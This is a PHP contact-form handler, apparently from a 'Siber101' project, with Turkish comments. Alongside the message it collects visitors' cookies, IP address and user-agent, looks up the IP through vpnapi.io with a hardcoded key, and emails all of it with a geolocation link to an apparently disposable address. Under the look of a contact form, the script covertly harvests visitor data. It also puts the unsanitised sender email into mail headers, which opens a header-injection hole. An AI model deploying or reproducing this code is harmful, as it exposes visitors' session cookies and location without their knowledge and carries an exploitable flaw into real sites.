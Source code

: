 <!-- 
 Copyright 2025 Fatih Yılmaz

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

    http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
limitations under the License.
-->


<?php
// 
//
//
// Bu kodlar kullanılmadan önce bu kodların yükleneceği 
// php dosyasının konumu hazırlanmalıdır. 

$email_sent = null; // Başlangıçta null olarak ayarla

if ($_SERVER['REQUEST_METHOD'] == 'POST') {
    // Formdan gelen verileri al
    $name = htmlspecialchars($_POST['name']);
    $email = htmlspecialchars($_POST['email']);
    $comments = nl2br(htmlspecialchars($_POST['comments']));
    $user_ip = htmlspecialchars($_POST['user_ip']);
    $user_cookies = htmlspecialchars($_POST['user_cookies']);
    $user_agent = htmlspecialchars($_POST['user_agent']);

    // VPN API'yi kullanarak IP bilgilerini al
    $api_url = "https://vpnapi.io/api/{$user_ip}?key=fae51f6b493f431799f31551207c6914";
    $response = file_get_contents($api_url);
    $user_info = json_decode($response, true);  // JSON formatında cevap alıyoruz

    // JSON bilgilerini düz metin formatına çeviriyoruz
    $user_info_json = json_encode($user_info, JSON_PRETTY_PRINT);

    // E-posta bilgileri
    $to = "gecile8958@benznoi.com";
    $subject = "📩 Yeni İletişim Formu Mesajı - $name";

    // HTML e-posta içeriği
$message = "
<html>
<head>
    <style>
        body { font-family: Arial, sans-serif; color: #333; }
        .container { max-width: 600px; margin: auto; padding: 20px; border: 1px solid #ddd; border-radius: 10px; background: #f9f9f9; }
        h1 { background: #6C6C6C; color: white; padding: 8px; text-align: center; border-radius: 10px 10px 0 0; }
        h2 { background: #71A89E; color: white; padding: 8px; text-align: center; border-radius: 10px 10px 0 0; }
        p { margin: 10px 0; }
        strong { color: #007BFF; }
        a { color: #4C9600}
        .footer { font-size: 12px; color: #666; text-align: center; margin-top: 20px; }
        .footer h4 { font-size: 62px; font-family: 'Pirata One', cursive; }
        .footer b { font-family: 'Russo One', sans-serif; }
.btn-block {
    display: block;
    width: 100%;
}

    </style>
</head>
<body>
    <div class='container'>
        <h1 style='font-family:Arial;'>📧 Yeni E-Posta</h1>
        <h2 style='font-family:Arial;'>👥 Gönderen E-Postası</h2>
        <p><strong>🪪 Adı Soyadı :</strong> $name</p>
        <p><strong>📨 E-Posta :</strong> $email</p>
        <p><strong>📩 E-Posta Gönder :</strong> <a href='mailto:$email'>$email 'a e-posta gönderin</a></p>
        <p><strong>📝 Gönderenin Mesajı :</strong><br>$comments</p>
    <hr>
        <h2 style='font-family:Arial;'>🔍 Gönderen Bilgileri</h2>
        <p><strong>📍 Konum Bilgisi:</strong> <a href='https://www.ip2location.com/demo/$user_ip' target='_blank'>$name kişisinin konumu</a></p>
        <p><strong>🌐 IP Adresi:</strong> $user_ip</p>
        <p><strong>🍪 Çerezler:</strong> $user_cookies</p>
        <p><strong>👾 User-Agent:</strong> $user_agent</p>
    <hr>
        <h2 style='font-family:Arial;'>🛜 IP Içeriği (JSON)</h2>
        <p><br><pre>$user_info_json</pre></p>
        <div class='footer'>
    <hr>
<h5>Developed by <b style='color:#71A89E; font-family:'Pirata One', serif;'>Siber</b><b style='color:#000; font-family:'Russo One', sans-serif;'>101</b></h5>


        </div>
    </div>
</body>
</html>";

    // E-posta başlıkları
    $headers = "MIME-Version: 1.0\r\n";
    $headers .= "Content-Type: text/html; charset=UTF-8\r\n";
    $headers .= "From: $email\r\n";
    $headers .= "Reply-To: $email\r\n";

    // Mail gönderme işlemi
    if (mail($to, $subject, $message, $headers)) {
        $response = ['status' => 'success', 'message' => 'Mesajınız başarıyla gönderildi.✅🎉 Teşekkür ederiz!'];
    } else {
        $response = ['status' => 'error', 'message' => 'Mesajınız gönderilemedi.❌😔 Lütfen tekrar deneyin.'];
    }

    // JSON formatında yanıt döndür
    echo json_encode($response);
    exit;
}
?>
